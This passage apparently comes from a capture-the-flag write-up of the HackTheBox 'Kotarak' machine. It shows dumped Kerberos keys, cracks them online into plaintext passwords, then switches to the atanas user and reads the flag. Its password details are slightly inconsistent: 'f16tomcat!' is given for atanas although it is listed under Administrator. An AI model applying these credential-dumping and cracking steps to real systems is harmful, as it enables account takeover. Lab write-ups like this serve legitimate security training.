```
WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7
WIN7$:des-cbc-md5:89a1673723ad9180
WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c
atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
atanas:des-cbc-md5:6b80e391f113542a
[*] Cleaning up... 

```

I can use `john` or `hashcat` to crack these ntlm hashes, or save time with [crackstation](https://crackstation.net/)


![crackstation](/assets/img/kotarak/kotarak-crackstation.png)

They are cracked almost instantly!

```
Administrator:f16tomcat!
atanas:Password123!
```


<hr width="250" size="6">


To get atanas' shell, we can either do `ssh atanas@localhost`, or just `su atanas` and type in the password `f16tomcat!`

Now we can grab the user.txt flag...

```
atanas@kotarak-dmz:~$ cat user.txt
93xxxxxxxxxxxxxxxxxxxxxxxxxxxxe8
```


`sudo -l` doesn't work, as atanas cannot do sudo on kotarak!
